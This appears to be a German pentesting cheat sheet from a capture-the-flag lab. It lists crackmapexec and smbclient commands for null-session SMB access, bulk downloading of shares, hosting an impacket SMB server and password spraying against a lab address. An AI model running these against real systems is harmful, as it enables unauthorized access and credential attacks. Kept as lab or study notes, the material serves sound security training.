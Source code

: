 # smb-shares
Eine json-Auflistung aller Files herunterladen und in /tmp speichern.
```bash
poetry run crackmapexec smb 10.10.10.219 -u '' -p '' -M spider_plus
```

## NULL-Authentication
```bash
poetry run crackmapexec smb 10.10.10.219 -u '' -p ''
smbclient -N //10.10.10.219/kanban
```

## Download all Files
```bash
smbclient -N //10.10.10.219/kanban
mget *
```


## Linux-smbshare
```bash
┌──(fuchs㉿kali)-[~]
└─$ impacket-smbserver -smb2support -user fuchs -password bau name_share $(pwd)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

# Password Spraying
je eine Datei für Nutzer und Kennwörter
```bash
poetry run crackmapexec smb 10.10.10.219 -u user.txt -p password.txt